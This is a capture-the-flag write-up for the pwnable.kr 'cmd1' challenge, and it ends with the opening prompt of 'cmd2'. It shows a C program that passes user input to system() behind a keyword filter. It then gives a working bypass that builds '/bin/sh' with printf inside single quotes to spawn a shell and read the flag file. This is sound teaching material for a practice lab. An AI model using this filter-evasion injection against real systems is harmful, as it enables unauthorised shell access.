`sorry mom… I FORGOT to check duplicate numbers… :(`

## [](#header-2)cmd1

> Mommy! what is PATH environment in Linux?
> 
> ssh cmd1@pwnable.kr -p2222 (pw:guest)

**cmd1.c**

```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
        int r=0;
        r += strstr(cmd, "flag")!=0;
        r += strstr(cmd, "sh")!=0;
        r += strstr(cmd, "tmp")!=0;
        return r;
}
int main(int argc, char* argv[], char** envp){
        putenv("PATH=/thankyouverymuch");
        if(filter(argv[1])) return 0;
        system( argv[1] );
        return 0;
}
```

Notice the difference between single quotes and double quotes in argv:

`$ ./test '$(echo abc)'`

`argv[1] = $(echo abc)`

`$ ./test "$(echo abc)"`

`argv[1] = abc`

Single quotes pass the command without executing it. 

Double quotes executes the command then passes its output (cannot pass the filter).

`./cmd1 '$(printf "/bin/%s%s" "s" "h")'`

`/bin/cat /home/cmd1/flag`

`mommy now I get what PATH environment is for :)`

## [](#header-2)cmd2

> Daddy bought me a system command shell.
> 
> but he put some filters to prevent me from playing with it without his permission…
> 
> but I wanna play anytime I want!
> 
> ssh cmd2@pwnable.kr -p2222 (pw:flag of cmd1)
